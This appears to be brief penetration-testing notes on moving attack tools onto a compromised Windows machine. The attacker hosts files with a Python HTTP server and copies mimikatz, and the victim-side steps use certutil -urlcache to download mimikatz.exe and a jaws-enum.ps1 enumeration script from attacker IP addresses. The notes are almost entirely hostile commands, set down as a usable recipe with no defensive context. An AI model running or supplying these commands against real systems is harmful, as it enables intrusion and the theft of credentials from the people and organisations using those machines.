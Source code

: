 


attacker
- python3 -m http.server 80
- make sure to know where is the path of file/payload/script etc
- cp /usr/share/windows-resources/mimikatz/x64 .


victim machine
- shell
- cd C:\\\
- mkdir tmp
- cd tmp
- certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe
certutil -urlcache -f http://192.168.100.5/jaws-enum.ps1 jaws-enum.ps1